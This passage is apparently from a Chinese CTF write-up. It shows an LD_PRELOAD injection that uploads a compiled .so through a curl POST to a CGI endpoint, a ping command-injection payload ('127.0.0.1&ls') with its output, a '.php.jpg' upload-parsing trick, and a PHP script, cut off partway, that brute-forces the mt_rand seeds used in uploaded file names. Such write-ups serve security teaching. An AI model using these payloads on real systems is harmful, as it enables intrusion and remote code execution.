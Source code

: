 `gcc -shared -fPIC poc.c -o poc.so && curl -X POST --data-binary @poc.so http://114.55.36.69:8018/cgi-bin/hello.cgi?LD_PRELOAD=/proc/self/fd/0 -i --output 1.txt`

读取1.txt获得flag

***

###  ping也能把你ping挂 

进入题目执行`ping`指令：

`127.0.0.1&ls`

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.039 ms
config.php
contain.html
css
img
index.php
js
ping.php
upload
you_find_upload.php
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.043 ms

--- 127.0.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 999ms
rtt min/avg/max/mdev = 0.039/0.041/0.043/0.002 ms
```

进入文件`you_find_upload.php`，可上传图片，此处有解析漏洞，上传`.php.jpg`后缀文件（原本以为是`.php;.jpg`解析漏洞，这里坑了好久），分析源码后暴力猜解随机数即可，使用别人的php`payload`：

```php
<?php
set_time_limit(0);
$url = 'http://114.55.36.69:6664/upload/';
$start = 1;
$end = 10000;
$index = $start;
$random_pre = '';
$filename = '';
$result = '##';
while($index <= $end){
    echo "No.".$index;
    echo "<br>";
    mt_srand($index);
    mt_rand();
    $random_pre = mt_rand();
    $filename = $random_pre.'_404.php.jpg';
    $cur_url = $url.$filename;
    if(curl_get($cur_url)){
        $result = $result.$filename.'--';
        exit;
    }
    $index++;
}
if($index == 1001){
    echo "no result!";
}
     
function curl_get($tmp_url){
    $ch=curl_init();
    curl_setopt($ch,CURLOPT_URL,$tmp_url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
```